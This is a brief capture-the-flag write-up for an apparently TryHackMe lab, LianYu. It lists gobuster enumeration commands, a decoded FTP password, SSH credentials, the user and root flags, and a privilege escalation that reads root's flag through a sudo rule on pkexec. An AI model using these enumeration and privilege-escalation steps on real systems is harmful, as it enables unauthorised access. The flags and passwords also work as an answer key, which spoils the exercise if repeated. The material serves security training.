 #export ip=10.10.59.15

#vigilante | username
#RTy8yhBQdscX encoded in base58 | decoded value: !#th3h00d

===============================================
#1	Deploy the VM and Start the Enumeration.
	Ans: no answer needed.
------------------------------------------------
gobuster dir -u http://10.10.3.33/island/2100/ -w fuz.txt 
#	createtd own word list using {crunch} 0-9999 digits.

#2	What is the Web Directory you found?
	Ans: 2100
------------------------------------------------
gobuster dir -u http://10.10.3.33/island/2100/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .ticket

#3 	what is the file name you found?
	Ans: green_arrow.ticket
------------------------------------------------

#4 	what is the FTP Password?
	Ans: !#th3h00d
------------------------------------------------

#5 	what is the file name with SSH password?
	Ans: shado and the passwd for ssh: M3tahuman and usr:slade
------------------------------------------------

#6 	user.txt
	Ans: THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}
------------------------------------------------

Priv excalation: sudo -l
---------------------------------------------------------
sudo -l
[sudo] password for slade: 
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
---------------------------------------------------------

pkexec can run admin previleges so sudo /usr/bin/pkexec cat /root/root.txt

#7 	root.txt
	Ans: THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}


=====================The End====================